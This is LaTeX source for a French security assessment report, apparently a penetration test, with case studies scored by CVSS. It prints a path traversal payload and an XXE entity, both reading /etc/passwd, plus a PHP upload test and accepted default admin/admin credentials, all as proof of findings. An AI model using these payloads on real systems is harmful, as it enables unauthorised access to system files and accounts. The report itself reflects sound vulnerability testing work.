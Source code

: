 \documentclass[12pt,a4paper]{report}
\begin{document}
\subsection{Étude de Cas 4 : Path Traversal — CVSS 7.5 ÉLEVÉ}

\begin{lstlisting}[style=bash, caption={Résultat — Path Traversal}]
Payload : ../../etc/passwd
Preuve  : root:x:0:0:root:/root:/bin/bash...
Score   : 7.5 -- Eleve
\end{lstlisting}

\subsection{Étude de Cas 5 : XXE — CVSS 8.2 ÉLEVÉ}

\begin{lstlisting}[language=xml, caption={Résultat — XXE Injection}]
<!-- Payload XML -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<request><data>&xxe;</data></request>
<!-- Preuve : contenu /etc/passwd dans la reponse XML -->
<!-- Score  : 8.2 -- Eleve -->
\end{lstlisting}

\subsection{Étude de Cas 6 : File Upload — CVSS 8.8 ÉLEVÉ}

\begin{lstlisting}[style=bash, caption={Résultat — File Upload}]
Fichier  : 806a29fb_shell.php
Contenu  : <?php echo "MARKER_806a29fb"; ?>
Preuve   : Marqueur retrouve dans la reponse HTTP 200
Score    : 8.8 -- Eleve (RCE potentiel)
\end{lstlisting}

\subsection{Étude de Cas 7 : Auth Failures — CVSS 9.8 CRITIQUE}

\begin{lstlisting}[style=bash, caption={Résultat — Auth Failures}]
Payload : username=admin, password=admin
Preuve  : Credentials par defaut acceptes -> /dashboard
Score   : 9.8 -- Critique
\end{lstlisting}

\subsection{Étude de Cas 8 : IDOR — CVSS 6.5 MOYEN}
\end{document}

